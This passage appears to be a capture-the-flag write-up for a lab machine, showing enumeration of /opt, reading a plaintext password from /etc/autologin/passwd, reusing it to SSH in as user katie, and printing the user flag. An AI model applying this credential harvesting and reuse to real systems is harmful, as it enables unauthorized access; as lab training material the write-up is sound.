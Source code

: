 ## we upgraded the shell 
## after enough searching we found a file in /opt
``` bash
bash-4.3$ ls
bin  boot  dev  etc  home  lib  lib64  lost+found  media  mnt  opt  postinst  proc  root  run  sbin  srv  sys  tmp  usr  var
bash-4.3$ cd opt/
bash-4.3$ ls
VirtualBox  autologin.conf.orig  broadcom  displaylink  eeti  google  neverware  tpm1  tpm2
bash-4.3$ cat autologin.conf.orig
```
## it contains file autologin.conf.orig

![[Pasted image 20210617125227.png]]

## here we can see a directory that might potentially contain password
### lets go inside it
``` bash
bash-4.3$ cd /etc/autologin
bash-4.3$ ls
passwd
bash-4.3$ cat passwd
SummerHereWeCome!!
bash-4.3$ 
```

## so we have a password lets try to change to another user
## we saw a user katie and we have ssh so lets ssh to katie
# ssh to katie
``` bash
ssh katie@10.10.10.229            
The authenticity of host '10.10.10.229 (10.10.10.229)' can't be established.
RSA key fingerprint is SHA256:lr0h4CP6ugF2C5Yb0HuPxti8gsG+3UY5/wKjhnjGzLs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.229' (RSA) to the list of known hosts.
Password: 
-bash-4.3$ id
uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
-bash-4.3$ 
```

## user flag
``` bash
-bash-4.3$ cat user.txt 
e89d27fe195e9114ffa72ba8913a6130
-bash-4.3$ 
```
